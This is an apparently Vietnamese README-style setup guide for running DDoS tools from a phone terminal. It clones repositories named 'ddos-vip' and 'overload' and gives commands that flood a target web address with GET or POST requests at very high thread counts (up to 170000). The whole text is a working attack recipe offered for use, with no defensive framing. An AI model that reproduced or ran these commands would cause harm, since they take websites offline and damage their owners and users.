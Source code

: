 # Setup
pkg install golang

pkg install openjdk-17
# Lệnh Vào Tool
git clone https://github.com/User-xquyen/ddos-vip

cd toolddos-vippro
# Chế độ Get sài cho web https://
go run ddosbyXQ.go https://linkweb.com 5000 get 5000 nil
# Chế độ Post sài cho web http://
go run ddosbyXQ.go https://linkweb.com 5000 post 5000 header.txt
# Java DDoS siêu bá cân all web
java ddosbyXQ.java

Link web:

Thread: 170000

Method: 4000
# Overload
pkg install python3 python3-pip git -y

git clone https://github.com/7zx/overload

cd overload

pip3 install -r requirements.txt

python3 overload.py

├───Cách Nhập
│   ├───TIME:1000
│   └───THREADS:20000
│   └───URL:link web

